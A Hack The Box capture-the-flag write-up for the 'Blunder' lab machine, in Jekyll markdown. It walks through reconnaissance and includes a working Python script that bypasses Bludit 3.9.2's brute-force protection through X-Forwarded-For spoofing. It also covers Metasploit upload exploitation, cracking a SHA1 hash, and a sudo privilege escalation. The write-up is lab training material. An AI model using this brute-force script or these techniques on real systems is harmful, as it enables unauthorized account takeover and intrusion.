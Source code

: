 ```yaml
---
title: "[HTB] Blunder WriteUp"
date: 2020-10-17T12:00:00-00:00
categories:
  - Hack The Box
excerpt: "Blunder is a fairly easy machine on Hack The box. We bypass the brute force mitigation to brute force the password to the CMS"
header:
  teaser: "/assets/blunder/blunder.jpg"
tags:
  - HTB
  - Hack The Box
  - Blunder
  - WriteUp
  - Linux
---
```


![Blunder]({{ site.url }}{{ site.baseurl }}/assets/blunder/blunder.jpg)

Blunder is a fairly easy machine on Hack The box. We bypass the brute force mitigation to brute force the password to the CMS, then use an image upload vulnerability to get access. Then some enumeration takes us to the second user, then root.

As always, I begin by running an nmap scan

```bash
nmap -sC -sV -p- -oN nmap/nmap 10.10.10.191
```
```bash
# Nmap 7.80 scan initiated Mon Jun  1 18:30:36 2020 as: nmap -sC -sV -p- -oN nmap/nmap 10.10.10.191
Nmap scan report for 10.10.10.191
Host is up (0.023s latency).
Not shown: 65533 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  1 18:35:55 2020 -- 1 IP address (1 host up) scanned in 319.13 seconds

```

Only 2 ports are open, 80 and 21. The FTP server on port 21 refuses connection so lets look at the site running on port 80.

![Website]({{ site.url }}{{ site.baseurl }}/assets/blunder/website.jpg)

The website is fairly simple, poking around we don't really find much of any use. Next I run a dirbuster scan.

```
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Mon Jun 01 19:05:18 BST 2020
--------------------------------

http://10.10.10.191:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/
/bl-themes/
/admin/

--------------------------------
Files found during testing:

Files found with a 200 responce:

/stephen-king-0
/stadia
/about
/usb
/install.php
/robots.txt
/todo.txt
--------------------------------
```

Dirbuster finds a few interesting things! First a file called todo.txt:

```txt
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

This gives us a few clues, fergus must be a user and the CMS has likely not been updated yet.

Navigating to /admin we find the login page for Bludit, the CMS being used.


![CMS]({{ site.url }}{{ site.baseurl }}/assets/blunder/cms.jpg)

We already have a potential username (fergus) but no password. We can generate a wordlist based on the website content by using cewl

```bash
cewl 10.10.10.191 > wordlist.txt
```

From the page source code we can identify the version of Bludit which is running, 3.9.2. Googling for exploits relating to this version we find this [blog post](https://rastating.github.io/bludit-brute-force-mitigation-bypass/). We can then use the proof of concept with our wordlist to brute force the password for fergus. (Note that the section for generating 50 passwords is not needed as we are using our own wordlist.)

```py
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'admin'
wordlist = open("wordlist.txt", "r")

# Generate 50 incorrect passwords
# for i in range(50):
#     wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
#wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

Running the exploit returns the password `RolandDeschain`. We can now login as fergus!

![Logged In]({{ site.url }}{{ site.baseurl }}/assets/blunder/loggedin.jpg)

Bludit 3.9.2 has a vulnerability relating to the upload functionality, there is a metasploit module available.

![Metasploit]({{ site.url }}{{ site.baseurl }}/assets/blunder/msf.jpg)

We supply the username, password and correct addresses and get a shell as www-data.

### Privilege Escalation 

After some time spent doing basic enumeration we find a file /var/www/bludit-3.9.2/bl-content/databases/users.php

```php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}

```

It contains a hashed password for both fergus and hugo(admin). The passwords are hashed using sha1, which is easily cracked using online tools. I used [CrackStation](https://crackstation.net/).

hugo:Password120

we can now login as hugo and get user.txt!

### Getting root

As hugo, we see that we can run /bin/bash as any user other than root, however the verion of sudo is outdated and so this can be bypassed to gain root:

```bash
sudo -l
Password: Password120

User hugo may run the following commands on Blunder:
	(All, !root) /bin/bash
```

![Root]({{ site.url }}{{ site.baseurl }}/assets/blunder/root.jpg)